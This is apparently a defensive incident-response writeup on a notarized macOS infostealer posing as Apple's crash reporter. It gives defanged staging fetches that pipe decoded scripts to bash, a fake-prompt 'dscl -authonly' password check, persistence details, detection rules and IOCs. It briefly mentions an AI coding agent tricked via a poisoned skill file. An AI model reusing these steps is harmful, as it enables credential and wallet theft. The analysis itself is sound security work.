

# CrashStealer: A Notarized macOS Infostealer Wears Apple's Own Crash Reporter

## TL;DR

CrashStealer is a native-C++ macOS infostealer, first spotted by Jamf Threat Labs as a
development sample in May 2026 and confirmed in active deployment by early July 2026, that
impersonates Apple's built-in CrashReporter component to loot browser credentials, roughly
80 cryptocurrency-wallet extensions, 14 password managers, and the login Keychain. What
makes it notable for DFIR macOS is the delivery chain rather than the payload alone: the
initial dropper, a disk image called "Werkbit Setup", carries a valid Apple Developer ID
and a stapled notarization ticket, so Gatekeeper waves it through on first launch with no
warning, and access to the installer itself is gated behind a meeting PIN to keep it off
automated scanners. Dwell time before public disclosure ran from a May 2026 VirusTotal
upload to early-July in-the-wild detections -- roughly two months of quiet development
before the operators went live. The why-today: this is the first repository primary on
slot #14 (DFIR macOS) since Day 33 (2026-05-30, AMOS/OpenClaw), the largest gap of any
taxonomy slot at 56 days, and CrashStealer is the freshest, most technically documented
macOS credential-theft case in the last two weeks -- a full RE writeup from Jamf covering
delivery, persistence, anti-analysis, and encryption internals, cross-corroborated by five
independent outlets.

## Attribution and confidence

| Attribute | Detail |
| --- | --- |
| Primary cluster | CrashStealer -- a distinct macOS infostealer family (not a rebrand of AMOS, Banshee, or other commodity stealers); no named actor or group behind it in public reporting |
| Confidence | high (technical mechanics -- full delivery chain, persistence, encryption scheme and anti-analysis behaviour independently reproduced by Jamf's RE); low (operator attribution -- the only handle is an Apple Developer ID, "Emil Grigorov (WWB7JA7AQV)", whose real-world identity is unconfirmed and which Jamf reported to Apple for revocation) |
| Vendor discovery | Jamf Threat Labs (researcher Thijs Xhaflaire), "CrashStealer: C++ macOS Infostealer Posing as Crash Reporter", first VirusTotal sample May 2026, in-the-wild confirmation and report published 2026-07-13 |
| Corroboration | The Hacker News (Ravie Lakshmanan, 2026-07-13); SecurityAffairs (Pierluigi Paganini, 2026-07-14); Help Net Security (Sinisa Markovic, 2026-07-14); Malwarebytes (Pieter Arntz, 2026-07-15); Secure ISS threat advisory (2026-07-20, no impact to their customers reported) |
| Geographic nexus | Not established -- infrastructure registration (werkbit[.]io, late June 2026) and shared backend domains (cohezo[.]io, cohezo[.]com, cordinex[.]io) give no geolocation signal in public reporting |
| Genealogy in this repo | Day 33 (2026-05-30, AMOS/OpenClaw) is the only prior #14 primary: both are macOS Keychain-and-wallet stealers, but AMOS relies on social-engineering an AI coding agent into running a fake "prerequisite driver" via a poisoned OpenClaw skill file, with no code-signing abuse involved, while CrashStealer's entire value proposition is clearing Apple's own trust chain (a genuinely valid Developer ID plus notarization) rather than tricking a skill loader -- two different maturity models for macOS credential theft converging in the same year |

## Kill chain — summary table

| Stage | MITRE | Detail |
| --- | --- | --- |
| Delivery | T1204.002 | PIN-gated werkbit[.]io serves a signed, notarized "Werkbit Setup" disk image |
| Execution | T1553.002, T1036.005 | Werkbit.app (executable "veltod") clears Gatekeeper on first launch; masquerades as legitimate collaboration software |
| Staging fetch | T1102.001, T1105, T1027 | GitHub repo mgothiclove/pkeys hosts sys.cache; runtime-decoded base64 blobs pull a shell script that stages CrashReporter.dmg |
| Payload deployment | T1036.005, T1553.002 | Payload copied to hidden /private/tmp/.CrashReporter, stripped of its original signature and re-signed ad hoc, launched as fake CrashReporter.app |
| Recon | T1518.001 | Lists installed security and analysis tooling before any collection begins |
| Credential capture | T1056.002, T1555.001 | Fake native password prompt validated locally via dscl -authonly; validated password unlocks the login Keychain |
| Collection | T1555.001, T1555.005, T1005 | Chromium/Firefox credential stores, ~80 crypto-wallet extensions, 14 password managers, ~/Documents and ~/Downloads files |
| Anti-analysis | T1027, T1622 | Control-flow flattening, runtime string decryption, layered sysctl KERN_PROC/P_TRACED debugger checks |
| Staging/encryption | T1560.003 | Each item AES-256-GCM encrypted via CommonCrypto, PBKDF2-HMAC-SHA256 key derivation, zipped as hidden .zx_*.zip archives |
| Exfiltration | T1041, T1071.001 | ZIP archives uploaded over libcurl to a hardcoded C2 (179.43.166.242 in early samples; a proper TLS endpoint in later builds) |
| Persistence | T1543.001, T1036.005 | Copies itself to ~/Library/Caches/com.apple.crashreporter/CrashReporter.app; installs LaunchAgent com.apple.crashreporter.helper.plist |



The diagram uses Template A's two-lane layout: the left lane follows the victim-Mac timeline
from the PIN-gated dropper through Gatekeeper clearance, hidden-path payload staging,
credential capture, bulk collection, and LaunchAgent persistence; the right lane tracks the
attacker's infrastructure -- the notarized signing identity, the GitHub-hosted staging
pointer, the cleartext payload host, the hardcoded C2, and the shared backend domains tying
this to a larger multi-platform operation. The two critical anchors (credential capture and
persistence) are marked in the red "critical" style, matching the C2 node on the right --
these three are the highest-value detection and containment points in the whole chain.

## Stage-by-stage detail

### Delivery: PIN-gated notarized dropper

The disk image "Werkbit Setup" is served from werkbit[.]io, a domain registered in late
June 2026. Unusually for malicious DMG delivery, the container image itself is signed, not
just the application bundle inside it. Access to the download requires a meeting PIN,
meaning the installer is not exposed to casual visitors, automated crawlers, or most
threat-intel scanning infrastructure -- a deliberate anti-research control, not an
accident. Once mounted, the volume presents a single application, Werkbit.app, and an
install screen instructing the victim to right-click and choose "Open" to run it.

```text
Volume:   Werkbit Setup.dmg (signed disk image)
App:      Werkbit.app
Signer:   Emil Grigorov (WWB7JA7AQV) -- valid Apple Developer ID
Notary:   stapled notarization ticket present
Origin:   hxxps://werkbit[.]io (registered late June 2026, PIN-gated)
Exec:     Werkbit.app/Contents/MacOS/veltod
```

MITRE ATT&CK: T1204.002 (User Execution: Malicious File).

### Execution: Gatekeeper clears the notarized dropper

Because both the disk image and Werkbit.app carry a valid Developer ID and a stapled
notarization ticket, Gatekeeper permits execution on first launch with no warning dialog.
Notarization only certifies that Apple's automated scan found nothing objectionable at
submission time -- it says nothing about what the app fetches and runs five minutes later.
Werkbit.app masquerades as ordinary collaboration/meeting software, consistent with the
PIN-gated "meeting" framing of the lure.

MITRE ATT&CK: T1553.002 (Subvert Trust Controls: Code Signing), T1036.005 (Masquerading:
Match Legitimate Name or Location).

### Staging fetch: GitHub as a dead-drop resolver

On launch, veltod queries the GitHub API and retrieves a file named sys.cache from the
repository github.com/mgothiclove/pkeys. That file is not the payload itself -- it supplies
a curl command that the dropper runs next, pulling a shell script from
endpoint-api-v1[.]com. The script never touches disk in readable form: it arrives as a
series of Base64-encoded blobs, decoded at runtime and piped directly into bash.

```text
GET https://api.github.com/repos/mgothiclove/pkeys/contents/sys.cache
  -> curl command embedded in sys.cache
GET hxxp://endpoint-api-v1[.]com/<staging-path>
  -> base64 blobs, decoded at runtime, piped to bash
GET hxxp://endpoint-api-v1[.]com/d/f1b24e/download   (cleartext HTTP, retried up to 3x)
  -> saved as /tmp/CrashReporter.dmg
```

The downloader script then mounts the disk image without browsing or verification
(`hdiutil attach -nobrowse -noverify -noautoopen -quiet`), copies the first `.app` bundle it
finds into a hidden directory at `/tmp/.CrashReporter`, detaches the image, and deletes the
downloaded `.dmg`.

MITRE ATT&CK: T1102.001 (Web Service: Dead Drop Resolver), T1105 (Ingress Tool Transfer),
T1027 (Obfuscated Files or Information -- runtime Base64 decode-and-pipe).

### Payload deployment: hidden path, ad hoc re-signature

The staged payload, CrashReporter.app, carries the bundle identifier
`com.apple.crashreporter` and an icon designed to mimic Apple's own crash-reporting
component. Before launching it, the dropper strips its existing signature and re-signs it
ad hoc, then launches it from the hidden `/private/tmp/.CrashReporter` path. An application
bundle launching from a hidden dot-directory under `/private/tmp` is, on its own, a
high-confidence indicator with almost no legitimate macOS software matching the pattern.

Two more artifacts sit in the payload's Info.plist and are worth reading directly rather
than only through the summarized IOC list:

```text
Bundle ID:    com.apple.crashreporter
ATS exception: 179.43.166.242 hardcoded in cleartext (earlier samples only; later
               builds drop this exception, implying a move to a properly configured
               TLS endpoint that no longer needs an App Transport Security carve-out)
NSUsageDescription strings (pre-populate the macOS permission prompt the victim sees):
  - "CrashReporter requires Full Disk Access for system administration"
  - Desktop / Documents / Downloads / removable-volumes access descriptions
    (matching exactly where the later file-search component walks)
```

MITRE ATT&CK: T1036.005 (Masquerading), T1553.002 (Subvert Trust Controls: Code Signing --
the ad hoc re-signature step).

### Recon: security-tooling enumeration

Before any collection begins, the malware enumerates installed security and analysis
tooling on the host -- a lightweight defender-awareness step common to mature stealers,
letting the operator's later panel activity flag hosts where EDR or research tooling is
present.

MITRE ATT&CK: T1518.001 (Security Software Discovery).

### Credential capture: fake prompt, real local validation

CrashStealer displays a native macOS password prompt designed to be indistinguishable from
a genuine system authorization dialog. Rather than fighting TCC or forging Apple's real
authentication UI, it validates whatever the user types by calling `dscl` -- a legitimate,
built-in macOS directory-service utility -- with the `-authonly` flag:

```text
dscl . -authonly <username> <entered-password>
```

It loops until a correct password is supplied, caches the validated credential at
`~/.cache/.sys_auth` with file mode 600, and immediately reuses that password to unlock the
user's login Keychain via Apple's own `security` command-line tool. The login Keychain copy
lands in the same staging area used for every other collected item.

MITRE ATT&CK: T1056.002 (Input Capture: GUI Input Capture), T1555.001 (Credentials from
Password Stores: Keychain).

### Collection: browsers, wallets, password managers, files

Collection is broad and specifically scoped:

```text
Browsers:          Chrome, Brave, Microsoft Edge, Opera, Opera GX, Vivaldi,
                    Chromium, Naver Whale (Chromium family); Firefox
Wallet extensions:  ~80 browser extensions, incl. MetaMask, Phantom, Coinbase
                    Wallet, Trust Wallet, Rabby, OKX Wallet, Exodus, Keplr,
                    Solflare, Backpack
Password managers:  14, incl. 1Password, Bitwarden, LastPass, Dashlane,
                    Keeper, KeePassXC, NordPass, Enpass, RoboForm
Files:              ~/Documents and ~/Downloads, skipping executables, disk
                    images, large archives, and media files to keep the
                    collected set small and relevant
```

MITRE ATT&CK: T1555.001, T1555.005 (Credentials from Password Stores: Password Managers),
T1005 (Data from Local System).

### Anti-analysis: flattened control flow, layered anti-debug

CrashStealer applies control-flow flattening broadly across its functions, decrypts
sensitive strings at runtime from an encrypted blob stored in the binary's `__const`
section, and runs two separate anti-debugging checks. The first fires in a constructor that
executes before `main`, during dynamic-linker initialization, using `sysctl` with a
`KERN_PROC` / `P_TRACED` query -- the standard macOS debugger-attached check -- and exits
with code 45 if a debugger is present, before any malicious behavior runs. A second, later
check in application initialization repeats the test, so patching out only the first
constructor check is not sufficient to defeat it.

MITRE ATT&CK: T1027 (Obfuscated Files or Information), T1622 (Debugger Evasion).

### Staging and encryption: AES-256-GCM before anything leaves the host

Each collected item is individually encrypted with AES-256-GCM through Apple's
CommonCrypto, following the standard sequence: create a cryptor
(`CCCryptorCreateWithMode`), set an initialization vector (`CCCryptorGCMSetIV`), encrypt
(`CCCryptorGCMEncrypt`), and finalize the authentication tag (`CCCryptorGCMFinal`). The
32-byte key is derived with PBKDF2-HMAC-SHA256 over 10,000 iterations
(`CCKeyDerivationPBKDF`), combining a passphrase with a hardcoded salt labeled
`panel_salt_v1`. A nearby cleartext development string, "using fallback salt -- set
CONFIG_CRYPTO_SALT for production", confirms the operator intended this to be configurable
and shipped a development default instead. Encrypted items are zipped into hidden archives
with a `.zx_` prefix followed by eight random hex characters, staged under
`~/.cache/com.apple.crashreporter/`. The stealer removes its staging directories after
archiving but leaves the `.zx_*.zip` archives behind -- a durable filesystem artifact even
after the process exits.

MITRE ATT&CK: T1560.003 (Archive Collected Data: Archive via Custom Method).

### Exfiltration: libcurl to a hardcoded C2

The archived, encrypted data is exfiltrated over libcurl to attacker-controlled
infrastructure. Earlier samples hardcode the C2 address 179.43.166.242 as an App Transport
Security exception in cleartext inside the payload's Info.plist; more recent samples omit
this exception, suggesting the operator moved to a properly configured TLS endpoint that no
longer needs to relax Apple's network security policy. A dark-themed operator panel,
labeled "Command Panel," is reachable at endpoint-api-v1[.]com/login and was independently
spotted by MalwareHunterTeam. Additional operator interfaces tied to the same campaign sit
at cohezo[.]io, cohezo[.]com, and cordinex[.]io, and Jamf assesses CrashStealer is one piece
of a larger, multi-platform operation sharing this backend.

MITRE ATT&CK: T1041 (Exfiltration Over C2 Channel), T1071.001 (Application Layer Protocol:
Web Protocols).

### Persistence: impersonating Apple into the LaunchAgent layer

CrashStealer copies itself to `~/Library/Caches/com.apple.crashreporter/CrashReporter.app`,
applies a fresh ad hoc signature to the copy, and installs a LaunchAgent at
`~/Library/LaunchAgents/com.apple.crashreporter.helper.plist`, labeled
`com.apple.crashreporter.helper`. `KeepAlive` is set with `SuccessfulExit` false, so
`launchd` restarts the process whenever it exits with an error, keeping it resident across
reboots and logins.

MITRE ATT&CK: T1543.001 (Create or Modify System Process: Launch Agent), T1036.005
(Masquerading -- persistence naming continues the Apple impersonation from the payload
stage).

## Detection strategy

### Telemetry that matters

- Endpoint Security Framework (ES) exec and file-create/open events, or an MDM/EDR agent
  built on it (Jamf Protect, CrowdStrike Falcon for Mac, Microsoft Defender for Endpoint on
  macOS, SentinelOne) -- process ancestry for `dscl`, `hdiutil`, `security`, and app bundles
  launching from `/private/tmp/.*` hidden paths.
- macOS unified log (`log show --predicate ...`) for `hdiutil attach -nobrowse -noverify`,
  Gatekeeper/`spctl` assessment results, and Keychain (`security`) unlock events.
- LaunchAgent/LaunchDaemon plist creation under `~/Library/LaunchAgents/` and
  `~/Library/LaunchDaemons/`, correlated against Apple bundle-identifier naming
  (`com.apple.*`) created by a non-Apple installer.
- DNS and HTTP/TLS telemetry for newly registered domains and cleartext HTTP downloads of
  `.dmg` files -- CrashStealer's own staging fetch used plain HTTP, an anomaly on its own
  for software claiming to be an Apple component.
- Jamf/MDM inventory of notarized-but-unrecognized Apple Developer Team IDs distributing
  software outside the Mac App Store.

### Detection coverage

| Engine | File | Logic |
| --- | --- | --- |
| Sigma | `sigma/crashstealer_dscl_authonly_nonapple_parent.yml` | `dscl ... -authonly` invoked by a parent process outside Apple's known system-binary paths |
| Sigma | `sigma/crashstealer_hidden_tmp_app_launch.yml` | Application executable launched from a hidden dot-directory under `/private/tmp` or `/tmp` |
| Sigma | `sigma/crashstealer_launchagent_crashreporter_helper.yml` | Creation of a LaunchAgent plist labeled `com.apple.crashreporter.helper` outside `/System/Library` |
| KQL | `kql/crashstealer_dscl_authonly_hunt.kql` | Same `dscl -authonly` process-ancestry logic for Defender XDR `DeviceProcessEvents` |
| KQL | `kql/crashstealer_hidden_tmp_launchagent_correlation.kql` | Correlates a hidden-`/tmp` app launch with a same-host LaunchAgent write within 30 minutes |
| KQL | `kql/crashstealer_c2_network_egress.kql` | `DeviceNetworkEvents` egress to the cleartext payload host and hardcoded C2 IP |
| YARA | `yara/crashstealer_macho_indicators.yar` | Mach-O binaries containing `panel_salt_v1`, `.zx_` staging prefix, `CCCryptorGCM*` API strings, and the `com.apple.crashreporter.helper` LaunchAgent label |
| Suricata | `suricata/crashstealer_network.rules` | DNS/TLS SNI for delivery and C2 domains, cleartext HTTP GET of the `/d/f1b24e/download` staging path, and direct HTTP to the hardcoded C2 IP |

No SPL is provided (retired 2026-05-11 project-wide); convert the Sigma rules with
`sigma convert -t splunk` if needed.

### Threat hunting hypotheses

- **H1** (`hunts/peak_h1_notarized_dropper_hidden_tmp_launch.md`): if a notarized-but-unknown
  macOS app has run on a fleet endpoint, a child or staged process will launch from a hidden
  dot-directory under `/private/tmp`, a pattern with almost no legitimate baseline.
- **H2** (`hunts/peak_h2_dscl_authonly_keychain_unlock_cooccurrence.md`): if credential
  theft via the CrashStealer pattern occurred, a `dscl -authonly` call and a login-Keychain
  unlock (`security` framework activity) will co-occur on the same host within minutes,
  initiated by a non-Apple, non-interactive-shell parent process.
- **H3** (`hunts/peak_h3_zx_archive_libcurl_exfil.md`): if exfiltration completed, a hidden
  `.zx_*.zip` archive will have existed under `~/.cache/` and a `libcurl`-linked process will
  have made an outbound POST to a young or newly-observed domain shortly after the archive's
  creation timestamp.

## Incident response playbook

### First 60 minutes (triage)

1. Confirm the trigger: identify which detection fired (EDR alert, Sigma/KQL hit, user
   report of an unexpected password prompt from "CrashReporter" or "Werkbit").
2. Isolate the endpoint from the network (or restrict to an IR VLAN) to stop any in-progress
   exfiltration over libcurl to the C2.
3. Snapshot volatile state before further action: running process list, open network
   connections, and the contents of `~/Library/LaunchAgents/` and `~/Caches/`.
4. Check for `~/Library/LaunchAgents/com.apple.crashreporter.helper.plist` and
   `~/Library/Caches/com.apple.crashreporter/CrashReporter.app` -- their presence alone is
   near-definitive confirmation.
5. Do not simply `kill` the process yet -- capture the running binary and its command line
   first for later RE/hash comparison, since `launchd`'s `KeepAlive` will just restart it.
6. Treat the user's macOS login password, browser-stored credentials, Keychain contents,
   password-manager vaults, and any crypto wallets present on the host as compromised from
   the moment of first execution, not just from confirmed exfiltration.

### Artifacts to collect

| Artifact | Path | Tool | Why |
| --- | --- | --- | --- |
| Persistent LaunchAgent | `~/Library/LaunchAgents/com.apple.crashreporter.helper.plist` | `plutil -p`, EZ Tools / manual review | Confirms persistence mechanism and label |
| Persisted payload copy | `~/Library/Caches/com.apple.crashreporter/CrashReporter.app` | `codesign -dvvv`, `file`, hash | Confirms ad hoc re-signature and gives a sample for RE |
| Original hidden staging path | `/private/tmp/.CrashReporter/` (may be gone if `/tmp` was cleared on reboot) | `ls -la@`, `stat` | First-execution artifact, timestamp anchor |
| Exfil staging archives | `~/.cache/com.apple.crashreporter/.zx_*.zip` | Manual collection, hash | Durable evidence of what was collected and staged, even post-cleanup |
| Cached validated password | `~/.cache/.sys_auth` (mode 600) | `ls -la`, secure deletion after capture | Confirms local password-validation step; handle as sensitive material |
| Unified log (Gatekeeper/spctl) | system log | `log show --predicate 'subsystem == "com.apple.securityd"'` | Confirms notarization/Gatekeeper assessment for the dropper |
| Keychain access history | login keychain | `security` framework audit, unified log | Confirms unlock event timing correlated with the fake prompt |

### IR queries and commands

```bash
# Confirm the LaunchAgent and inspect its target
plutil -p ~/Library/LaunchAgents/com.apple.crashreporter.helper.plist

# Check code-signing status of the persisted payload (ad hoc = "not signed" or a
# locally-generated identity, NOT Apple's original notarized signature)
codesign -dvvv ~/Library/Caches/com.apple.crashreporter/CrashReporter.app

# Look for the staging archive naming pattern under the user's cache directory
find ~/.cache -maxdepth 2 -iname '.zx_*.zip' -print

# Pull recent Gatekeeper / notarization assessment events from the unified log
log show --predicate 'subsystem == "com.apple.security" OR process == "syspolicyd"' \
  --style compact --last 7d | grep -i -E 'werkbit|crashreporter'

# Hunt for any process that launched from a hidden dot-directory under /tmp
sudo lsof +D /private/tmp 2>/dev/null | grep -E '/\.[A-Za-z]'
```

```powershell
# If macOS telemetry is centralized in Defender XDR / Sentinel via MDE for Mac,
# pull the device's recent process tree for dscl -authonly and hidden-tmp launches
# (see kql/crashstealer_dscl_authonly_hunt.kql and
#  kql/crashstealer_hidden_tmp_launchagent_correlation.kql for the full query)
```

```kql
DeviceFileEvents
| where Timestamp > ago(14d)
| where FolderPath has "Library/LaunchAgents" and FileName == "com.apple.crashreporter.helper.plist"
| project Timestamp, DeviceName, InitiatingProcessFileName, InitiatingProcessCommandLine
```

### Containment, eradication, recovery

Exit criteria for eradication: the LaunchAgent plist is removed, the persisted app copy
under `~/Library/Caches/com.apple.crashreporter/` is deleted, no process matching the
payload's hash or behavioral signature remains running, and `~/.cache/.sys_auth` and any
remaining `.zx_*.zip` archives are securely wiped after evidence capture. Reset the user's
macOS account password, rotate all browser-stored and password-manager credentials found on
the host, and move any crypto assets in wallets that were present on the machine to a new
wallet on a clean device -- CrashStealer's wallet-extension targeting means local key
material for those ~80 supported wallets should be treated as fully compromised, not merely
"possibly viewed."

What NOT to do: do not simply quit or `kill` the running CrashReporter.app process and
consider the host clean -- the LaunchAgent's `KeepAlive` (`SuccessfulExit` false) will
relaunch it on the next failed exit, and the persisted copy under `~/Library/Caches/` will
survive a normal Finder-based "move to Trash" of only the LaunchAgents plist. Do not
re-enable network access for the host until the LaunchAgent and the Caches copy are both
confirmed removed.

### Recovery validation

Confirm no `com.apple.crashreporter.helper` LaunchAgent is registered
(`launchctl list | grep crashreporter` should return nothing beyond Apple's own, distinctly
different, built-in crash-reporting services), confirm no process is running from
`~/Library/Caches/com.apple.crashreporter/` or any hidden `/tmp/.` path, and confirm outbound
network telemetry shows no further connections to werkbit[.]io, endpoint-api-v1[.]com, or
179.43.166.242 over a subsequent 7-day observation window before returning the host to
normal use.

## IOCs

| Type | Value | Context | Confidence | Source |
| --- | --- | --- | --- | --- |
| domain | werkbit[.]io | PIN-gated delivery domain serving the notarized "Werkbit Setup" dropper, registered late June 2026 | high | Jamf Threat Labs |
| domain | endpoint-api-v1[.]com | Hosts the base64-encoded staging shell script and the cleartext CrashReporter.dmg payload; also hosts the "Command Panel" operator login | high | Jamf Threat Labs |
| domain | cohezo[.]io | Shared backend infrastructure tied to the same multi-platform operation | medium | Jamf Threat Labs |
| domain | cohezo[.]com | Shared backend infrastructure tied to the same multi-platform operation | medium | Jamf Threat Labs |
| domain | cordinex[.]io | Shared backend infrastructure tied to the same multi-platform operation | medium | Jamf Threat Labs |
| ipv4 | 179.43.166[.]242 | Hardcoded C2 address as an ATS exception in earlier payload builds; later builds omit it | high | Jamf Threat Labs |
| url | hxxp://endpoint-api-v1[.]com/d/f1b24e/download | Cleartext HTTP staging download of CrashReporter.dmg, retried up to 3x | high | Jamf Threat Labs |
| url | hxxps://endpoint-api-v1[.]com/login | Dark-themed operator "Command Panel" login page, independently spotted by MalwareHunterTeam | high | Jamf Threat Labs / MalwareHunterTeam |
| path | /private/tmp/.CrashReporter/ | Hidden first-execution staging path for the re-signed payload | high | Jamf Threat Labs |
| path | ~/Library/Caches/com.apple.crashreporter/CrashReporter.app | Persisted, ad hoc re-signed copy of the payload | high | Jamf Threat Labs |
| path | ~/Library/LaunchAgents/com.apple.crashreporter.helper.plist | Persistence LaunchAgent, label com.apple.crashreporter.helper | high | Jamf Threat Labs |
| path | ~/.cache/.sys_auth | Locally cached, validated login password (mode 600) | high | Jamf Threat Labs |
| string | .zx_ (8 random hex chars).zip | Naming pattern for hidden staged/encrypted exfiltration archives under ~/.cache/com.apple.crashreporter/ | high | Jamf Threat Labs |
| string | panel_salt_v1 | Hardcoded PBKDF2 salt found in the binary alongside a "fallback salt" development string | high | Jamf Threat Labs |
| string | com.apple.crashreporter.helper | LaunchAgent label and persistence identifier impersonating Apple naming | high | Jamf Threat Labs |
| note | No public SHA256/SHA1/MD5 hashes were reproduced in this case's IOC set. Jamf's technical report states it published file hashes, but the primary report page (jamf.com/blog) returned no retrievable content to this repository's research tooling at the time of writing; per this project's no-invented-IOC policy, hashes are omitted rather than fabricated. Detection here is deliberately behavioral/infrastructure-anchored (hidden paths, LaunchAgent label, archive naming, C2/domains) rather than hash-based, which also fits an actively developed native stealer where hashes churn quickly. | Jamf Threat Labs (unreproduced) |

No CVE is in scope for this case -- CrashStealer's entire delivery mechanism is abuse of a
*genuinely valid* Apple Developer ID and notarization workflow, not exploitation of a
software vulnerability, so no `kev.md` cross-reference applies.

## Secondary findings

- **A related but distinct Gatekeeper weakness, same month, different mechanism.**
  Researchers Talal Haj Bakry and Tommy Mysk disclosed a separate flaw in which the main
  executable of an already-downloaded macOS app can be silently swapped for a malicious
  version after Gatekeeper's one-time check, without elevated privileges, once the app has
  been run at least once. Apple addressed it with additional restrictions in a subsequent
  macOS release. CrashStealer does not use this technique -- it relies on legitimate
  notarization rather than post-launch executable substitution -- but both cases land on the
  same underlying lesson: Gatekeeper's approval is a point-in-time attestation, not a
  standing guarantee.
- **Apple's XProtect signature response is broadening, not narrowing.** The July 2026
  XProtect update (version 5351, the first broad release since early June) added Yara
  detection rules for an unrelated "Boatload" stealer family and fourteen new rules covering
  osascript-based malware generally. Public reporting gives no indication these specific
  signatures cover CrashStealer, underscoring that XProtect's signature-based net trails
  active native-stealer development rather than leading it.
- **Two different maturity models for macOS credential theft, five months apart.** This
  repository's Day 33 case (AMOS/OpenClaw, 2026-05-30) social-engineers an AI coding agent
  into installing a stealer via a poisoned skill file, with no code-signing abuse at all.
  CrashStealer instead invests in a genuinely valid Developer ID and stapled notarization --
  a materially higher operational cost that buys a materially higher chance of silently
  clearing Gatekeeper with no user-visible warning at all.

## Pedagogical anchors

- Notarization is a scan-time attestation, not a runtime guarantee. Gatekeeper's approval at
  first launch says nothing about a re-signed, dropped second-stage payload that runs from a
  hidden `/tmp` path minutes later -- treat "notarized" as a necessary, not sufficient,
  trust signal in any macOS fleet-security model.
- A password prompt that looks native is not proof of an OS-level requirement. `dscl -authonly`
  lets any unprivileged process locally validate whatever the user types without ever
  touching Apple's real authentication UI, then immediately reuse that password against the
  Keychain -- the "genuine-looking dialog" pattern deserves the same suspicion on macOS that
  it gets on Windows UAC-prompt phishing.
- Hash-based IOCs decay fast for actively developed native stealers; anchor hunts on
  filesystem and persistence patterns instead -- a hidden-dot-directory app launch under
  `/private/tmp`, a `com.apple.*`-labeled LaunchAgent created by a non-Apple installer, and a
  `.zx_`-prefixed staging archive all survive across binary rebuilds in a way that any given
  SHA256 will not.
- Client-side encryption of stolen data (AES-256-GCM via CommonCrypto here) defeats naive
  network-content inspection. Detection has to shift to the exfiltration *pattern* --
  staged hidden archives, a `libcurl`-linked process POSTing to a newly registered domain --
  rather than payload inspection at the network layer.
- Deliberately gated distribution (a PIN-gated meeting link, in this case) is itself a
  detection-evasion control, not incidental to the campaign. Unusually restricted software
  distribution -- invite-only downloads, meeting codes, single-use links -- should raise
  suspicion independent of anything yet known about the binary behind it.

## What's in this folder

| File | Purpose | Link |
| --- | --- | --- |
| README.md | This file -- full case writeup | [README.md](./README.md) |
| kill_chain.svg | Two-lane kill chain diagram (Template A) | [kill_chain.svg](./kill_chain.svg) |
| sigma/crashstealer_dscl_authonly_nonapple_parent.yml | Sigma: dscl -authonly from a non-Apple parent process | [sigma/](./sigma/) |
| sigma/crashstealer_hidden_tmp_app_launch.yml | Sigma: app launch from a hidden /tmp dot-directory | [sigma/](./sigma/) |
| sigma/crashstealer_launchagent_crashreporter_helper.yml | Sigma: creation of the impersonating LaunchAgent | [sigma/](./sigma/) |
| kql/crashstealer_dscl_authonly_hunt.kql | KQL: dscl -authonly hunt for Defender XDR | [kql/](./kql/) |
| kql/crashstealer_hidden_tmp_launchagent_correlation.kql | KQL: hidden-tmp launch correlated with LaunchAgent write | [kql/](./kql/) |
| kql/crashstealer_c2_network_egress.kql | KQL: network egress to delivery/C2 infrastructure | [kql/](./kql/) |
| yara/crashstealer_macho_indicators.yar | YARA: Mach-O string/API indicators | [yara/](./yara/) |
| suricata/crashstealer_network.rules | Suricata: DNS/TLS/HTTP coverage for delivery and C2 | [suricata/](./suricata/) |
| hunts/peak_h1_notarized_dropper_hidden_tmp_launch.md | PEAK hunt H1: hidden-tmp app launch | [hunts/](./hunts/) |
| hunts/peak_h2_dscl_authonly_keychain_unlock_cooccurrence.md | PEAK hunt H2: dscl-authonly + Keychain unlock co-occurrence | [hunts/](./hunts/) |
| hunts/peak_h3_zx_archive_libcurl_exfil.md | PEAK hunt H3: staged archive + libcurl exfil | [hunts/](./hunts/) |
| iocs.csv | Full indicator list (type, value, context, confidence, source) | [iocs.csv](./iocs.csv) |

## Sources

- [Jamf Threat Labs: CrashStealer: C++ macOS Infostealer Posing as Crash Reporter](https://www.jamf.com/blog/crashstealer-macos-infostealer-analysis/)
- [The Hacker News: CrashStealer macOS Malware Uses Notarized Dropper to Pass Gatekeeper Checks](https://thehackernews.com/2026/07/crashstealer-macos-malware-uses.html)
- [Security Affairs: CrashStealer: New macOS Infostealer Uses Signed Apps to Evade Gatekeeper](https://securityaffairs.com/195278/malware/crashstealer-new-macos-infostealer-uses-signed-apps-to-evade-gatekeeper.html)
- [Help Net Security: New macOS malware steals passwords by posing as Apple's crash-reporting tool](https://www.helpnetsecurity.com/2026/07/14/crashstealer-macos-infostealer-password-theft/)
- [Malwarebytes: This fake Apple app can unlock your Mac's password vault](https://www.malwarebytes.com/blog/threat-intel/2026/07/this-fake-apple-app-can-unlock-your-macs-password-vault)
- [Secure ISS: macOS CrashStealer Infostealer Identified in Active Use](https://www.secure-iss.com/newsroom/macos-crashstealer-infostealer-identified-in-active-use)
